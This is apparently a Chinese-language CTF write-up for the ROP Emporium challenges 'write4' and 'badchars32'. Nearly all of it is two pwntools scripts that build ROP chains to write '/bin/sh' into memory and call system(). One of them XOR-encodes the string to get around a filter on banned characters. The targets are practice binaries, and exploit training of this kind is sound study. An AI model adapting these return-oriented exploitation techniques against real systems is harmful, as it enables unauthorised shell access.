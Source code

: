 
## write4 

改為 64-bit

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
r = process('/tmp/p/write4')

trash = 'a'*40

system_plt = 0x4005e0

mov_dr14_r15_ret = 0x0000000000400820
pop_r14_r15_ret = 0x0000000000400890
pop_rdi_ret = 0x0000000000400893
bss = 0x00602000 - 0x100

payload = flat([pop_r14_r15_ret, bss, '/bin/sh\x00', mov_dr14_r15_ret])
payload+= flat([pop_rdi_ret, bss, system_plt])

r.sendline(trash + payload)
r.interactive()
```

## badchars32

這題和上一題一樣，只是他有對輸入做檢查，

'b','i','c','/',' ','f','n','s'

禁止上面這八個，所以要對輸入做編碼，執行前解碼

這裡用 xor 做編碼和解碼

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/badchars32')
trash = 'a'*44
bss = 0x0804b000 - 0x100

xor_debx_cl = 0x08048890
system_plt = 0x80484e0
mov_dedi_esi = 0x08048893
pop_esi_edi = 0x08048899
pop_ebx_ecx = 0x08048896
bad = [0x62, 0x69, 0x63, 0x2F, 0x20, 0x66, 0x6E, 0x73]

xor_bit = 0x2

sh_encode = xor('/bin/sh\x00', xor_bit)

payload = flat([pop_esi_edi, sh_encode[:4], bss, mov_dedi_esi  ])
payload+= flat([pop_esi_edi, sh_encode[4:8], bss+4, mov_dedi_esi  ])

for i in range(8):
	payload += flat([ pop_ebx_ecx, bss+i, xor_bit, xor_debx_cl ])

payload += flat([ system_plt, bss, bss ])

r.sendline(trash + payload)
r.interactive()
```